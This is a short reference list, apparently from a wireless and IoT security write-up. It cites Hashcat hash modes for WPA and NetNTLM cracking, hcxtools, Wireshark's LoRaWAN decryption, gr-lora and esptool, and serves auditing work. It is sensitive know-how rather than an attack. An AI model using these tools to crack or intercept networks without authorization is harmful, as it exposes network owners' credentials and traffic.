- Hashcat hash modes: `hashcat --help` (22000 = WPA-PBKDF2-PMKID+EAPOL, 5500 = NetNTLMv1, 5600 = NetNTLMv2)
- hcxdumptool/hcxpcapngtool: [hcxtools project](https://github.com/ZerBea/hcxtools)
- Wireshark LoRaWAN dissector, LoRaTap link type, and `uat:session_keys_lorawan` decryption: [Wireshark LoRaWAN display-filter reference](https://www.wireshark.org/docs/dfref/l/lorawan.html), [ZDI advisory 21520](https://gitlab.com/wireshark/wireshark/-/work_items/21520), [LoRaTap](https://github.com/eriknl/LoRaTap)
- IOActive LoRaWAN Auditing Framework: [reported by Bitdefender/industry coverage](https://www.bitdefender.com/en-au/blog/businessinsights/the-protocol-thats-putting-enterprise-iot-at-extreme-risk)
- gr-lora (GNU Radio LoRa receiver): used in published LoRaWAN sniffer research (TecnoLógicas/DOI 10.22430/22565337.1491)
- esptool: [espressif/esptool](https://github.com/espressif/esptool)
